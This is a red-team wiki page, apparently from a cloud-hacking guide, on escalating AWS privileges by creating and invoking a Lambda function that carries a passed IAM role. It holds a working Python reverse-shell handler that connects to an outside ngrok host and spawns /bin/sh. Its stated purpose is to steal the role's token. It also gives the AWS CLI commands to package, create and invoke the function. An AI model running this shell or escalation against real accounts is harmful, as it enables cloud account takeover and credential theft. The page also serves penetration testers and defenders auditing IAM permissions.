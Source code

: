 # AWS - Lambda Privesc

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## lambda

More info about lambda in:

{% content-ref url="../../aws-security/aws-services/aws-lambda-enum.md" %}
[aws-lambda-enum.md](../../aws-security/aws-services/aws-lambda-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

Users with the **`iam:PassRole`, `lambda:CreateFunction`, and `lambda:InvokeFunction`** permissions can escalate their privileges.\
They can **create a new Lambda function and assign it an existing IAM role**, granting the function the permissions associated with that role. The user can then **write and upload code to this Lambda function (wuth a rev shell for example)**.\
Once the function is set up, the user can **trigger its execution** and the intended actions by invoking the Lambda function through the AWS API. This approach effectively allows the user to perform tasks indirectly through the Lambda function, operating with the level of access granted to the IAM role associated with it.\\

A attacker could abuse this to get a **rev shell and steal the token**:

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
   s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   s.connect(('4.tcp.ngrok.io',14305))
   os.dup2(s.fileno(),0)
   os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2)
   p=subprocess.call(['/bin/sh','-i'])
   time.sleep(900)
   return 0
```
{% endcode %}

```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
    --runtime python3.9 --role <arn_of_lambda_role> \
    --handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt
## If you have the lambda:InvokeFunctionUrl permission you need to expose the lambda inan URL and execute it via the URL

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```
